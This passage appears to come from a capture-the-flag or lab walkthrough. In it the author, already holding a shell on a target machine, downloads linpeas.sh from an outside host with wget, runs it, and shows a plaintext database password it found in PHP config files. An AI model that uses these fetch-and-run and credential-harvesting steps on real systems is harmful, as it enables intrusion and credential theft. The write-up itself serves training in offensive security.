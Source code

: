 We are root!!!

## Method 2

Download ```linpeas.sh``` to the target machine and run it.

```shell
sh-4.2$ cd /tmp
cd /tmp
sh-4.2$ wget http://10.6.10.164:8000/linpeas.sh
wget http://10.6.10.164:8000/linpeas.sh
--2023-03-20 02:18:45--  http://10.6.10.164:8000/linpeas.sh
Connecting to 10.6.10.164:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828172 (809K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  6%  260K 3s
    50K .......... .......... .......... .......... .......... 12%  554K 2s
   100K .......... .......... .......... .......... .......... 18% 2.42M 1s
   150K .......... .......... .......... .......... .......... 24%  665K 1s
   200K .......... .......... .......... .......... .......... 30% 1.76M 1s
   250K .......... .......... .......... .......... .......... 37% 7.66M 1s
   300K .......... .......... .......... .......... .......... 43% 7.49M 1s
   350K .......... .......... .......... .......... .......... 49%  971K 0s
   400K .......... .......... .......... .......... .......... 55% 3.86M 0s
   450K .......... .......... .......... .......... .......... 61% 2.12M 0s
   500K .......... .......... .......... .......... .......... 68% 9.80M 0s
   550K .......... .......... .......... .......... .......... 74% 13.5M 0s
   600K .......... .......... .......... .......... .......... 80% 3.34M 0s
   650K .......... .......... .......... .......... .......... 86% 1.07M 0s
   700K .......... .......... .......... .......... .......... 92% 8.62M 0s
   750K .......... .......... .......... .......... .......... 98% 2.25M 0s
   800K ........                                              100% 65.8M=0.6s

2023-03-20 02:18:45 (1.31 MB/s) - 'linpeas.sh' saved [828172/828172]

sh-4.2$ chmod +x linpeas.sh
chmod +x linpeas.sh
sh-4.2$ ./linpeas.sh
```

We found a public password in php config files.

```shell
╔══════════╣ Searching passwords in config PHP files
        public $password = 'nv5uz9r3ZEDzVjNu';
                        $this->password = (empty($this->options['db_pass'])) ? '' : $this->options['db_pass'];
                        $this->password = null;
                        'password' => $this->password,
```

